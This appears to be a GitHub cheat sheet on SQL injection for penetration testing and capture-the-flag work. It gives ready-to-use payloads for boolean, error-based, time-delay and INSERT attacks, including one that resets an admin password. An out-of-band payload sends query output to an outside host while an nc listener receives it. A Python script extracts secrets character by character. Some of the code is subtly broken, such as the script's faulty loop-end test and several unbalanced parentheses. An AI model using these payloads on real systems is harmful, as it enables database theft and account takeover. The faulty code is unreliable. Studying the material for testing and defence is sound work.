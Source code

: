 # SQL Injection
---
## Navigation
- **[Detection Techniques](#Detection%20Techniques)**
- **[Boolean Exploitation Technique](#Boolean%20Exploitation%20Technique)**
- **[Error Based Exploitation Technique](#Error%20Based%20Exploitation%20Technique)**
- **[Out of Band Exploitation Technique](#Out%20of%20Band%20Exploitation%20Technique)**
- **[Time Delay Exploitation Technique](#Time%20Delay%20Exploitation%20Technique)**
- **[Orderby](#Order-by)**
- **[Insert statement](#Insert%20statement)**
- **[Evasion techniques](#Evasion%20techniques)**

---
#### SQL Injection attacks can be divided into the following three classes:
- **Inband:** data is extracted using the same channel that is used to inject the SQL code.
- **Out-of-band:** data is retrieved using a different channel (e.g., an email).
- **Inferential or Blind:** there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.


#### The techniques to exploit SQL injection flaws there are five commons techniques
-   **Union Operator:** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-   **Boolean:** use Boolean condition(s) to verify whether certain conditions are true or false.
-   **Error based:** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-   **Out-of-band:** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-   **Time delay:** use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

## Detection Techniques
-   Authentication forms
-   Search engines:
-   E-Commerce sites
-   The tester has to make a list of all input fields whose values could be used in crafting a SQL query, **including the hidden fields of POST requests** and then test them separately.

## Boolean Exploitation Technique
The Boolean exploitation technique is very useful when the tester finds a [**Blind SQL Injection**](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation.

We suppose that the query executed on the server is:
```text
SELECT field1, field2, field3 FROM Users WHERE Id='$Id'
```

The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database.
-   **SUBSTRING (text, start, length):** returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- **ASCII (char):** it gives back ASCII value of the input character. A null value is returned if char is 0.
-   **LENGTH (text):** it gives back the number of characters in the input text.


```text
1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
```

```text
1' AND LENGTH(username)=N AND '1' = '1
```
## Error Based Exploitation Technique
The Error based technique consists in **forcing the database to perform some operation in which the result will be an error**. The point here is to try to extract some data from the database and show it in the error message.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be (e.g. Oracle 10g):
```text
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:
```text
ORA-292257: host SCOTT unknown
```
## Out of Band Exploitation Technique
The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be:
```text
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘server.com:80’||(SELECT user FROM DUAL)--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`.
```bash
$nc -nvlp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```
## Time Delay Exploitation Technique
This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond.
The malicious request would be (e.g.**MySql 5.x**):
```text
http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```
## Order-by
```sql
(select case when (SUBSTR((select flag from Flag),1,5)='flag{') then atomic_number else name end)
```
```sql
1 LIMIT 0, 1|1000*(SELECT instr(flag, 'flag{') FROM flag)
```
Code template (messy but works)
```python
inc = 5
flag = "flag{"
while True:
    for i in chars:
        print("[+] Trying: ", i, end="\r", flush=True)
        data = f"(select case when (SUBSTR((select flag from Flag),1,{inc + 1 })='{flag + i}') then atomic_number else name end)"
        Data = {"search": '', "order": data}
        req = requests.post(URL, headers=head, data=Data)
        check = str(req.content).replace(" ","").split("\\n").index("SEACRH FOR")
        if check == <NUMBER>:
            flag = flag + i
            inc += 1
            break
    print(f"[+] Flag is : {flag}")
    print("[!] Starting next iteration..")
    if flag[:-1] == "}":
        break

print(f"[+++] Flag = {flag}")
```
> **Multi-threaded script**: https://github.com/zAbuQasem/Misc/blob/main/Sql_injection.py

## Insert statement
```sql
username=admin&password=1337') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
```
## Evasion techniques
> **WAF: **https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

> **More techniques at the end of the page:** https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

